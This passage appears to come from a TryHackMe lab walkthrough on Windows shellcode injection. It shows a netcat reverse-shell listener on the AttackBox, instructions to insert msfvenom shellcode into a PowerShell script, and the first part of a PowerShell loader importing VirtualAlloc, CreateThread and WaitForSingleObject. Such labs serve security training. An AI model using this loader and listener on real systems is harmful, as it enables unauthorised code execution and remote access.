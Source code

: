 AttackBox Terminal

```javascript
           root@attackbox:~# nc -nvlp 1111
Listening on [0.0.0.0] (family 0, port 1111)
```

On the AttackBox, begin by navigating to the Desktop. Right-click on the `Desktop`, select `Create Document`, and then choose `Empty File`. Open this new file and paste the previously provided PowerShell script code into it. Look for the part labelled `SHELLCODE_PLACEHOLDER` and replace it with the shell code we previously created with `msfvenom`.

 ![creating new file sand saving shellcode](https://tryhackme-images.s3.amazonaws.com/user-uploads/62a7685ca6e7ce005d3f3afe/room-content/62a7685ca6e7ce005d3f3afe-1732683410058.png) \n

Once you've added the shellcode navigate to the attached VM, open PowerShell by clicking the PowerShell icon on the taskbar and paste parts of the code from the document you recently created to the Windows PowerShell window. For example, the first part to copy and paste is the block below:

```javascript
$VrtAlloc = @"
using System;
using System.Runtime.InteropServices;

public class VrtAlloc{
    [DllImport("kernel32")]
    public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
}
"@

Add-Type $VrtAlloc

$WaitFor= @"
using System;
using System.Runtime.InteropServices;

public class WaitFor{
 [DllImport("kernel32.dll", SetLastError=true)]
    public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
}
"@

Add-Type $WaitFor

$CrtThread= @"
using System;
using System.Runtime.InteropServices;

public class CrtThread{
 [DllImport("kernel32", CharSet=CharSet.Ansi)]
    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

}
"@
Add-Type $CrtThread
```

